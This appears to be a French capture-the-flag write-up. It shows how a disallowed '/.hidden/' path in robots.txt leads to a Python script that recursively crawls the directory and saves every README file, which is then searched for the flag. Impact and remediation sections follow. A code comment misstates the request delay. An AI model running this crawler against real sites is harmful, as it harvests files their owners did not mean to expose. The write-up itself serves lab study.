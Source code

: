 # README : Crawling automatique de fichiers README

## Description

Cette brèche met en évidence une vulnabilité dans la gestion des informations sensibles sur un site web. Elle permet à un attaquant potentiel d'automatiser le processus de recherche et d'extraction de fichiers README contenant des informations confidentielles.

## Fonctionnement

- Accédez à la page robots.txt : `http://X.X.X.X/robots.txt`
- Observez les chemins interdits :

```http
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```

- Allez vers le chemin interdit : `http://X.X.X.X/.hidden/`
- Utilisez un script Python pour crawler automatique des pages contenant README :

```python
import os
import requests
from bs4 import BeautifulSoup
from urllib.parse import urljoin
import time

def crawl(url, output_file, visited):
    # Vérifie si l'URL a déjà été visitée
    if url in visited:
        return
    visited.add(url)  # Marquer l'URL comme visitée

    try:
        # Envoyer une requête HTTP à l'URL
        response = requests.get(url)
        response.raise_for_status()  # Vérifie que la requête a réussi

        # Analyser le contenu HTML de la page
        soup = BeautifulSoup(response.text, 'html.parser')

        # Trouver tous les liens sur la page
        links = soup.find_all('a')

        for link in links:
            href = link.get('href')
            if href:
                # Construire l'URL complète en utilisant urljoin
                full_url = urljoin(url, href)

                # Si le lien contient 'README', télécharger le contenu
                if 'README' in href:
                    download_readme(full_url, output_file)

                # Si c'est un sous-dossier, appeler la fonction récursivement
                elif href.endswith('/'):
                    crawl(full_url, output_file, visited)

        time.sleep(0.007)  # Délai d'une seconde entre les requêtes
    except Exception as e:
        print(f"Erreur lors de l'accès à {url}: {e}")

def download_readme(url, output_file):
    try:
        response = requests.get(url)
        response.raise_for_status()  # Vérifie que la requête a réussi

        # Écrire le chemin complet du README dans le fichier de sortie
        with open(output_file, 'a', encoding='utf-8') as file:
            path_parts = url.split('/')
            normalized_path = '/'.join(path_parts[3:])  # Ignore les deux premiers éléments (schéma et domaine)
            file.write(f"{normalized_path}\n")  # Écrire uniquement l'URL complète sans ../
            file.write(response.text + "\n")  # Écrire le contenu du README

    except requests.exceptions.ConnectionError as e:
        print(f"Erreur de connexion lors du téléchargement de {url}: {e}")
    except requests.exceptions.Timeout as e:
        print(f"Délai d'attente dépassé lors du téléchargement de {url}: {e}")
    except requests.exceptions.RequestException as e:
        print(f"Une erreur s'est produite lors de la demande à {url}: {e}")

# URL de départ et fichier de sortie
start_url = 'http://X.X.X.X/.hidden/'  # Remplacez par l'URL de votre choix
output_file = 'readme_contents.txt'

# Ensemble pour suivre les URL visitées
visited_urls = set()

# Lancer le crawler
crawl(start_url, output_file, visited_urls)

print("Mission terminée, retrouve mon rapport dans", output_file)
```

- Utilisez grep "flag" dans le fichier output et le flag apparaitra.

## Impact

Cette vulnérabilité peut permettre à un attaquant de :

- Automatiser la recherche et l'extraction de fichiers README sur le site
- Potentiellement obtenir accès à des informations sensibles stockées dans ces fichiers
- Déchiffrer ou exposer des données confidentielles

## Recommandations

Pour corriger cette vulnérabilité :

- Ne pas stocker des informations sensibles dans des fichiers README accessibles publiquement
- Implémenter une protection anti-crawling robuste pour empêcher l'accès non autorisé aux dossiers sensibles
- Utiliser HTTPS pour sécuriser toutes les communications avec le serveur
- Limiter l'accès aux dossiers contenant des informations confidentielles
- Vérifier régulièrement les fichiers README pour détecter toute information sensible qui pourrait avoir été ajoutée par erreur
